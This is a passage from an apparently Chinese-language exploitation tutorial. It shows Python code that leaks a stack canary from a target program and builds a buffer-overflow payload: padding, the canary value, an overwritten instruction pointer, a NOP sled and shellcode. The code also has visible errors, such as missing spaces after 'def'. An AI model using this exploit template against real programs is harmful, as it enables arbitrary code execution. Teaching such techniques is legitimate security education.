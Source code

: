 ```
    canary = int( out[canary_pos : canary_pos+18], 16 )
    return canary
```

  
  
该函数将处理程序对象带到目标进程，注入有效负载，泄漏金丝雀，然后将金丝雀转换为整数值或在失败时返回 -1 后返回给调用者。  
  
现在，我们可以制作一个有效载荷，用正确的值覆盖金丝雀，注入一个shellcode，并通过覆盖指令指针来重定向执行流。  
  

```
defhijack_exec(p: Popen, canary):
    payload = b&#34;&#34;
    payload += b&#34;A&#34; * 0x112                               # Fills the stack frame
    payload += struct.pack( &#34;<Q&#34;, canary ) # Places the correct canary value 
    payload += b&#34;B&#34; * 0x8                                 # Base pointer
    payload += struct.pack( &#34;<Q&#34;, 0x7fffffffdd60 + 0x40 ) # Instruction pointer
    payload += b&#34;\x90&#34; * 0x40                             # NOPs for padding
    payload += buf # Shellcode

    p.stdin.write( b&#34;1\n&#34; )
    p.stdin.write( payload + b&#34;\n&#34; )
    p.stdin.flush()
```

  
  
我们采用了缓冲区溢出文章中讨论的相同方法，在金丝雀攻击发生后，用垃圾数据填充帧以绕过保护机制，将 Shellcode 注入前一帧，并替换指令指针以引用 Shellcode。但是，要执行 Shellcode，主函数必须返回。我们可以使用第四个函数 (exit) 来实现这一点，它可以中断循环并允许主函数返回。  
  

```
defexit_target(p: Popen):
    p.stdin.write( b&#34;4\n&#34; )
```

  
  
注入后必须调用此函数来强制程序执行shellcode。  
  

```
defmain():
    # We use 'stdbuf -o0' to force the targeted program pipes to be flushed
    # So we can read leaked canary/cookie immediately
    p = Popen( [&#34;stdbuf&#34;, &#34;-o0&#34;, TARGET_PATH], stdin=PIPE, stdout=PIPE )

    # Make stdout non-blocking when using read/readline
    flags = fcntl.fcntl( p.stdout, fcntl.F_GETFL )
    fcntl.fcntl( p.stdout, fcntl.F_SETFL, flags | os.O_NONBLOCK )

    canary = leak_canary( p )
    
    if bool( ~canary ):
        print( &#34;Canary : 0x%x&#34; % canary )
        hijack_exec( p, canary )
        exit_target( p )
        out, _ = p.communicate()
        print( out.decode() )
    else:
        exit_target( p )
        print( &#34;[-] Failed to leak the canary&#34; )
```
